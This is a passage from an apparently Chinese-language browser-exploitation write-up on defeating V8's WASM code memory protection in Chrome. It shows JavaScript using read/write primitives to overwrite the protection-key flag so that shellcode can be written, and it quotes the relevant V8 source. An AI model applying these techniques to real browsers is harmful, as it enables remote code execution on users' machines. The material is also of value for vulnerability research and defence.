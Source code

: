 
### 绕过 WASM 内存保护

曾经在某篇文章里提到过，过去版本的 V8 中对 WASM 内存段不设保护，创建 WASM 后会直接生成一段 RWX 内存，这能为我们的利用提供很大的方便，因为在能够任意写的条件下，将 shellcode 写入该内存段是没有任何难度的。

但是后来的版本中为此添加了新保护，当该漏洞发生的版本下， WASM 仍会生成 RWX 内存段，但是向其写入时将会引发崩溃，因为它启用了 `kWebAssemblyCodeProtectionPku` ： `wasm-memory-protection-keys` 成为写入该内存段的开关，它将会令该内存段的权限在 RX 和 RWX 间切换。

而该标志位于 `libchrome.so` 中，通过 Blink 对象的读取，我们仍然有办法得到其地址：

```js
    var shellArrayAddr = addrOf(shellArray);

    let wrapperMatrix = new SubMatrix(imgAddr);
    let wrapperAddr = ftoi(readFrom(loopCount, wrapperMatrix));
    var wasmProtectionKeyAddr = wrapperAddr + wasmMemoryProtectionKeysOffset;
    compressedWrite(shellArrayAddr + 0x2c, itof(wasmProtectionKeyAddr));
    for (let i = 0; i < 8; i++) {
      shellArray[i] = 0;
    }
```

另外，笔者也顺手找了一下相关的函数：

```c++
void CodeSpaceWriteScope::SetWritable() {
  if (WasmCodeManager::MemoryProtectionKeysEnabled()) {
    RwxMemoryWriteScope::SetWritable();
  } else if (v8_flags.wasm_write_protect_code_memory) {
    current_native_module_->AddWriter();
  }
}
```

```c++
bool WasmCodeManager::MemoryProtectionKeysEnabled() {
  return HasMemoryProtectionKeySupport() &&
         v8_flags.wasm_memory_protection_keys;
}
```

```c++
WasmCodeAllocator::WasmCodeAllocator(std::shared_ptr<Counters> async_counters)
    : protect_code_memory_(!V8_HAS_PTHREAD_JIT_WRITE_PROTECT &&
                           v8_flags.wasm_write_protect_code_memory &&
                           !WasmCodeManager::MemoryProtectionKeysEnabled()),
      async_counters_(std::move(async_counters)) {
  owned_code_space_.reserve(4);
}
```

将 `wasm_write_protect_code_memory` 覆盖为 0 能够禁用该保护，从而实现绕过。

另外还有一个方法，笔者最先接触到的也是该方法：覆盖 `write_protect_code_memory_` 为 0。

不过该标志主要用于保护 JIT 优化代码，它不直接通过 WASM 去生成代码段：
